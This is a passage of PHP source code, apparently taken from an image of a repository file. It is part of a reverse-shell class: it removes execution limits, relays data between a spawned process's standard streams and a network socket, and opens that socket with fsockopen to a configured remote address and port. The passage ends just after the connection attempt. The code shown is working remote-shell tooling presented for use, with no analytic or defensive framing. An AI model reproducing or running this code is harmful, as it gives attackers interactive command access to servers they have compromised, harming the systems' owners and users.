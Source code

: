 ```
        @set_time_limit(0); // do not impose the script execution time limit
        @umask(0); // set the file/directory permissions - 666 for files and 777 for directories
    }
    private function dump($data) {
        $data = str_replace('<', '&lt;', $data);
        $data = str_replace('>', '&gt;', $data);
        echo $data;
    }
    private function read($stream, $name, $buffer) {
        if (($data = @fread($stream, $buffer)) === false) { // suppress an error when reading from a closed blocking stream
            $this->error = true;                            // set global error flag
            echo "STRM_ERROR: Cannot read from {$name}, script will now exit...\n";
        }
        return $data;
    }
    private function write($stream, $name, $data) {
        if (($bytes = @fwrite($stream, $data)) === false) { // suppress an error when writing to a closed blocking stream
            $this->error = true;                            // set global error flag
            echo "STRM_ERROR: Cannot write to {$name}, script will now exit...\n";
        }
        return $bytes;
    }
    // read/write method for non-blocking streams
    private function rw($input, $output, $iname, $oname) {
        while (($data = $this->read($input, $iname, $this->buffer)) && $this->write($output, $oname, $data)) {
            if ($this->os === 'WINDOWS' && $oname === 'STDIN') { $this->clen += strlen($data); } // calculate the command length
            $this->dump($data); // script's dump
        }
    }
    // read/write method for blocking streams (e.g. for STDOUT and STDERR on Windows OS)
    // we must read the exact byte length from a stream and not a single byte more
    private function brw($input, $output, $iname, $oname) {
        $fstat = fstat($input);
        $size = $fstat['size'];
        if ($this->os === 'WINDOWS' && $iname === 'STDOUT' && $this->clen) {
            // for some reason Windows OS pipes STDIN into STDOUT
            // we do not like that
            // we need to discard the data from the stream
            while ($this->clen > 0 && ($bytes = $this->clen >= $this->buffer ? $this->buffer : $this->clen) && $this->read($input, $iname, $bytes)) {
                $this->clen -= $bytes;
                $size -= $bytes;
            }
        }
        while ($size > 0 && ($bytes = $size >= $this->buffer ? $this->buffer : $size) && ($data = $this->read($input, $iname, $bytes)) && $this->write($output, $oname, $data)) {
            $size -= $bytes;
            $this->dump($data); // script's dump
        }
    }
    public function run() {
        if ($this->detect() && !$this->daemonize()) {
            $this->settings();

            // ----- SOCKET BEGIN -----
            $socket = @fsockopen($this->addr, $this->port, $errno, $errstr, 30);
            if (!$socket) {
                echo "SOC_ERROR: {$errno}: {$errstr}\n";
            } else {
```
